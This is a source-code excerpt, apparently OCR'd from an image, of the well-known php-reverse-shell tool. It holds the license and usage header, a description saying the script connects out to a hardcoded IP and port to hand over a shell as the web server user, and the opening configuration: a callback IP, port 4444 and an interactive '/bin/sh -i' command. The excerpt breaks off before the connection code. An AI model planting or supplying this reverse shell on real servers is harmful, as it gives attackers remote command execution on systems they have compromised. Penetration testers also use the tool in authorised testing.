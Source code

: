 ```

// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.36';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
```
